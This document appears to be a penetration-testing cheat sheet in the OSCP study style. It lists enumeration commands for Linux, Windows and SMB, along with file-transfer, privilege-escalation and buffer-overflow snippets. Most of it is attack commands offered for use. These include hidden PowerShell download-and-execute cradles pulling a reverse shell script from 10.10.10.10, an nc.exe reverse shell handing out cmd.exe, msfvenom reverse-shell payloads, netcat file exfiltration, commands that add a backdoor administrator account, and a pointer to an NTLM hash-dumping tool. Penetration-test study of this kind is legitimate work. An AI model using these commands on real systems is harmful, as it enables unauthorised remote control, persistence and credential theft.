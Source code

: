 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files   
find / -perm -u=s -type f 2>/dev/null  //SUID files
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  


SMBEnum:
--------------------------------------------------
nmblookup -A [ip]    
nbtscan [ip]    
smbmap -H [ip]    
smbclient -L [ip]    
smbclient //[ip]/tmp    

rpcclient -U "" -N [ip]      
enumdomusers  

nmap --script smb-vuln* -p 139,445 [ip]    
nmap --script smb-enum-shares -p 139,445 [ip]  
enum4linux -a [ip]    
  
File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe") 

powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')  

rdesktop (ip) -r disk:share=/home/store  
xfreerdp /u:alex /v:10.10.10.10 +clipboard  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

PSAddAdminUser  
net user /add [*username] [password]  
net localgroup administrators [username] /add  
net localgroup "Remote Desktop Users" alex /add  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

MSFVenom Shell:
--------------------------------------------------
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp  
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

Pivoting:
--------------------------------------------------
https://github.com/21y4d/Notes/blob/master/Pivoting.txt  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL  
https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh  //nmapAutomator  
